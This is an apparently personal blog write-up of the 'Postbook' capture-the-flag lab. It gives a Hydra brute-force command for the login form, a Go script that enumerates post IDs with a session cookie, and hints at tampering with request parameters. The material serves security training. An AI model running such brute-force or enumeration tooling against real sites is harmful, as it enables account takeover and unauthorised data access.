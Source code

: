 ```yaml
---
date: "2019-05-27"
title: "Postbook"
category: "CTF"
---
```


CTF time !!
Let's find flags.

![alt text](https://media.giphy.com/media/sSmxfWnEVxtWU/giphy.gif)


### Hidden Page ~ 🚩(1/7)
Log in to the app using a newly created account, we can see home page like
![alt text](https://storage.googleapis.com/warrenlee/myBlog/CTF/Postbook/home.jpg)

Clicking two posts below, we can see their URLs
1. http://35.190.155.168/7d9c59055d/index.php?page=view.php&id=3
2. http://35.190.155.168/7d9c59055d/index.php?page=view.php&id=1

Hmm...where is page with id equal to 2 ?
<br />
Then we got the first flag from the hidden page.

### Brute Force Attack Login Form ~ 🚩(2/7)
Let's use <a href="https://github.com/vanhauser-thc/thc-hydra" target="__blank">Hydra</a> to crack password for account "user".

First, by providing random password to username='user', we got the response page
![alt text](https://storage.googleapis.com/warrenlee/myBlog/CTF/Postbook/failed_to_log_in.jpg)

Then, we can use the command as follow to do brute force attack
```
hydra -V -l user -P passlist.txt 35.190.155.168 http-form-post "/7d9c59055d/index.php?page=sign_in.php:username=^USER^&password=^PASS^&submit=Submit:Nothing is logged"
.
-V verbose mode
-l specify username here
-P given password list file path
```

Before running this command, we need to get a password list file (ex: <a href="https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt" target="__blank">File Link</a>)
<br />
Noted that, 'Submit:Nothing is logged' tells Hydra the error message in the response HTML.
![alt text](https://storage.googleapis.com/warrenlee/myBlog/CTF/Postbook/hydra_resp.jpg)

Bingo !! We got the password for 'user' is 'password'. 
<br />
Log in with this credential then we can get the flag.

### Mining Hidden Post ID ~ 🚩(3/7)
This flag was hidden in a post page with very large ID.
<br />
So we need to write a simple program to find the flag.
<br />
Below is a simple go program
```go
package main

import (
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
	"strings"
)

const URL string = "http://34.74.105.127/2e79c1ae35/index.php?page=view.php&id=%d"
const COOKIE string = "id=c81e728d9d4c2f636f067f89cc14862c"
const CONTENT_LENGTH int = 1414

func makeRange(min, max int) []int {
	a := make([]int, max-min+1)
	for i := range a {
		a[i] = min + i
	}
	return a
}

func makeRequest(url string, ch chan<- string) {
	client := &http.Client{}

	// Declare HTTP Method and Url
	req, err := http.NewRequest("GET", url, nil)

	// Set cookie
	req.Header.Set("Cookie", COOKIE)
	resp, err := client.Do(req)
	defer resp.Body.Close()
	// Read response
	data, err := ioutil.ReadAll(resp.Body)
	if err != nil {
		log.Fatalln(err)
	}
	if len(data) > CONTENT_LENGTH {
		ch <- string(data)
	} else {
		ch <- fmt.Sprintf("Not Found at url = %s", url)
	}

}

func main() {
	ids := makeRange(500, 1000)
	ch := make(chan string)
	for _, id := range ids {
		url := fmt.Sprintf(URL, id)
		go makeRequest(url, ch)
	}
	for range ids {
		output := <-ch
		if !strings.Contains(output, "Not Found") {
			fmt.Println(output)
		}
	}
}
```

In this case, once the client visit post with id = <b>945</b>, the flag will show up

### Mess Up Bad Design API, Part I ~ 🚩(4/7)
Now let's try to edit a post by clicking 'edit' and then 'save' buttons.
<br />
We can see a post request was sent from the client side with the URL below.
<b>http://34.74.105.127/2e79c1ae35/index.php?page=edit.php&id=3</b>
<br />
Interestingly, some unnecessary params were attached on the URL (id).
<br />
What if we resend the POST request without specifying id ?

### Mess Up Bad Design API, Part II ~ 🚩(5/7)
Coming Soon...
